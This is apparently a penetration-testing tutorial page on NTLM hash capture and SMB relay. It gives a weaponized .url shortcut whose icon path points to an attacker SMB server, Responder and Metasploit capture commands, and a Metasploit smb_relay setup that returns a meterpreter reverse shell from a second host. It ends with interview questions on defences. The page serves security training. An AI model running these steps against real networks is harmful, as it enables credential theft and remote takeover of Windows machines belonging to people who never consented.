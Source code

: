 # NTLM Relay via SMB

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings.&#x20;

However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

Let's walk through the example of using url links

## Execution via .URL

Create a weaponized .url file and upload it to the victim system:

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\192.168.0.37\%USERNAME%.icon
IconIndex=1
```

Create a listener on the attacking system:

```
responder -I eth1 -v
```

There are alternative way to Responder, Metasploit Framrwork has a module can be used to capture challenge-response password hashs from SMB Clients

```
auxiliary/server/capture/smb
```

Once the victim access the fileshare, the OS tries to authenticate to the attacker's malicious SMB listener on **192.168.0.37**. NTLMv2-SSP hash will be sent and capture.

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption><p>Responder</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption><p>Metasploit smb capture</p></figcaption></figure>

Next we can proceed to crack this NTLMv2-SSP hash using john

<figure><img src="../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

## Why does it auto authenticates?

When parsing a shortcut, Windows reads the contents to determine the properties of the shortcut, including where the linked resource is what and what icon should represent it.

If the .URL files specifies an icon file located on a network resource (Above example), Windows will attempt to access the network location to retrieve the icon. This is where the automatic behaviour comes into play:

* Network Request: Windows makes a network request to the specified server (attacker smb server).
* Authentication: Since its a network resources, Windows will try to authenticate to the server using available credentials. This is typically handled using **NTLM authentication if kerberos is not configured.**
* Once the icon is retrieved, it is displayed in the shortcut's place in the file explorer.

## More relays

Let's assume we have 2 machines, victim1 user is able authentication to victim2 machine.

We can relay the victim1 hash to victim2 and return a meterpreter shell.

Firstly launch msfconsole

```
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set relay_targets 192.168.0.50 --victim2
set smbdomain cyberrange.com
set smbshare public --victim2 writable share
exploit
```

after victim1 open up the malicious url shares, it will use the hash&#x20;

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

## Author

Ik0nw



## Interview Question

1\) Other than abusing the .URL, any other methods that enable force authentication to smb&#x20;

2\) What are the ways to defend smb relay attacks

3\) Explain why do the victim able to automatically access the attacker's smb share just by opening the share?

4\) How do defend such attacks

5\) Do smbrelay able to relay the hash back to the victim itself?
